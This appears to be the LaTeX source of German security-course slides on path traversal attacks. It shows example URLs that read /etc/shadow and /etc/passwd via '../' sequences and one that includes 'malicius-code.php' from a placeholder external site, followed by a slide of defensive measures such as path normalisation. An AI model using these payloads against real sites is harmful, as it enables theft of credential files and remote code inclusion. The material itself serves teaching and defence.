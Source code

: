 \documentclass[10pt]{beamer}
\begin{document}
\begin{frame}[fragile]{Path Traversal Attack - Beispiele}
  Beispiel Zugriff auf Dateien:
  \begin{lstlisting}[style=BashStyle]
  http://some_site.com.br/get-files.jsp?file=report.pdf
  http://some_site.com.br/some-page.asp?page=index.html
  \end{lstlisting}

  UNIX Passwort abgreifen:
  \begin{lstlisting}[style=BashStyle]
  http://some_site.com.br/../../../../etc/shadow
  http://some_site.com.br/get-files?file=/etc/passwd
  \end{lstlisting}

  Auch m\"oglich Dateien und Scripte von externen Websiten einzibinden:
  \begin{lstlisting}[style=BashStyle]
  http://some_site.com.br/some-page?page=http:
    //other-site.com.br/other-page.htm/malicius-code.php
  \end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Path Traversal Attack - Schutzma{\ss}nahmen}
  \begin{itemize}
    \item Nutzereingaben vermeiden wenn m\"oglich, bei Datei System Aufrufen
    \item Indexes anstatt Dateinahmen verwenden, f\"ur Benutzereingaben
    \item Nutzer soll nicht ganzen Pfad eingeben k\"onnen, mit eigenem Pfad umgeben
    \item Pfade normalisieren
    \begin{itemize}
      \item "." Segmente entfernen
      \item ".." - Segmente die ein nicht-".." Segment dafor haben werden entfernt
      \item Wenn Pfad relative und das erste Segment enth\"alt ein ":" Charackter dann wir ein "." vorangestellt
    \end{itemize}
  \end{itemize}
\end{frame}


\subsection{Format String Attack}
\end{document}

